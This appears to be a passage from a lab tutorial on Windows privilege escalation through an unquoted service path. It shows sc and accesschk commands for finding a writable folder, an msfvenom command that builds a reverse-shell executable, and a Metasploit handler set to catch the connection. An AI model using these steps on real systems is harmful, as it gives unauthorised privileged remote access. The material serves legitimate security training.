 ```
sc qc unquotedsvc
```


Once we have confirmed that the binary path is unquoted, we will need to  check our privileges on folders in the path. Our goal is to find a  folder that is writable by our current user. We can use accesschk.exe  with the command below to check for our privileges.

```
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
```


The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.


The accesschk binary is on the desktop of the target system (MACHINE_IP)


We now have found a folder we can write to. As this folder is also in the  service's binary path, we know the service will try to run an executable with the name of the first word of the folder name. 


We can use msfvenom (on the AttackBox) to generate an executable. The  command below will wrap Meterpreter in an executable file. 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address]  LPORT=[The Port to which the reverse shell will connect] -f exe >  executable_name.exe
```


The command above will generate a reverse shell. This means that it will  try to connect back to our attacking machine. We will need to launch  Metasploit and configure the handler to accept this connection. The  terminal screen below shows a typical configuration. Please note that  the LHOST value  (attacking machine IP address, 10.9.6.195 in the example below) will be different and you may also change the LPORT (local port) if you have used a different port when generating the executable file. If the  screen below seems unfamiliar, you can complete the Metasploit module to learn more about Metasploit. 

​            msfconsole        

```shell-session
           msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8899
lport => 8899
msf6 exploit(multi/handler) > set lhost 10.9.6.195
lhost => 10.9.6.195
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.195:8899
        
```


Once you have generated and moved the file to the correct location on the  target machine, you will need to restart the vulnerable service.
